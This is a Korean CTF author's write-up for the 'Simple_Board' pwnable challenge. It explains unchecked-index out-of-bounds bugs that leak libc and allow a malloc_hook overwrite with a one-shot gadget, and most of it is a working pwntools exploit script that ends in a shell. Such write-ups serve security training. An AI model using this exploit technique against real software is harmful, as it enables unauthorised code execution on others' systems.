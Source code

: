 # WhiteHat League - Demon CTF

## Simple_Board Write-Up - 출제자 풀이

## Introduce

- Author : 이해찬 ( y0u_bat )
- Field : Pwnable
- E-Mail : y0u_bat@naver.com
- Data : 2017-09-12



## Intention

- Simple Board의 delete board 메뉴와 change board 메뉴에서 index를 검증하지 않아 OOB 취약점 존재.
- delete board 메뉴에서 OOB read를 하여 libc를 leak 할 수 있음.
- change board 메뉴에서 패스워드를 바꾸는 과정에서 OOB write가 가능하여 malloc_hook를 원샷 가젯으로 덮어서 쉘을 획득 할 수 있음.



## Solve.py

```Python
from pwn import *

context.log_level = 'debug'

HOST,PORT = '127.0.0.1',7777
s = remote(HOST,PORT)

def c_board_create(bname,bpw):
	s.sendline("1");
	s.recvuntil("board name : ")
	s.send(str(bname))
	s.recvuntil("board password : ")
	s.sendline(str(bpw))
	s.recvuntil("input: ")

def c_board_select(bname,):
	s.sendline("2")
	s.recvuntil("board_name : ")
	s.send(str(bname))
	s.recvuntil("input: ")

def c_board_delete(bid,bpw,ok):
	s.sendline("3")
	s.recvuntil("delete board id : ")
	s.sendline(str(bid))
	s.recvuntil("delete board pw (number) : ")
	s.sendline(str(bpw))

	s.recvuntil("board name is ")
	leak = s.recv(5)
	if s.recv(1) == "\x7f":
		leak += "\x7f\x00\x00"
		leak = u64(leak)
	s.recvuntil("Delete Y or N : ")
	s.send(str(ok))
	s.recvuntil("input: ")
	return leak

def c_board_change(bid,pw,new_name,new_pw):
	s.sendline("4")
	s.recvuntil("select board id : ")
	s.sendline(str(bid))
	s.recvuntil("select board pw (number) : ")
	s.sendline(str(pw))

	if new_name:
		s.recvuntil("change board name : ")
		s.send(str(new_name))
		s.recvuntil("change board password : ")
		s.sendline(str(new_pw))
		s.recvuntil("input: ")


def c_board_view():
	s.sendline("5")
	s.recvuntil("input: ")


def board_write(id_,content_):
	s.sendline("1")
	s.recvuntil("board id : ")
	s.send(str(id_))
	s.recvuntil("board content : ")
	s.send(str(content_))
	s.recvuntil("input: ")

def board_delete(id_):
	s.sendline("2")
	s.recvuntil("delete board id : ")
	s.sendline(str(id_))
	s.recvuntil("input: ")

def board_change(id_,content_):
	s.sendline("3")
	s.recvuntil("select board id : ")
	s.sendline(str(id_))
	s.recvuntil("change board_content : ")
	s.send(str(content_))
	s.recvuntil("input: ")

def board_view():
	s.sendline("4")
	s.recvuntil("input: ")

def back():
	s.sendline("5")
	s.recvuntil("input: ")
	
	
s.recvuntil("input: ")

c_board_create("test","123456789")

board_write("1","a"*30)

back()

libc_base = c_board_delete("-11","0","N")-0x3c5620
libc_malloc_hook_sub_10 = libc_base + 0x3C4B10-0x10
libc_malloc_hook = libc_base + 0x3C4B10
oneshot = libc_base + 0xF0274
c_board_create("test2","2222")
board_delete(str(libc_malloc_hook_sub_10))

back()

c_board_change("-4","0","\n",str(oneshot)) 

s.sendline("1")

log.info("libc_base : " + hex(libc_base))
log.info("libc_malloc_hook : " + hex(libc_malloc_hook))
s.interactive()
```
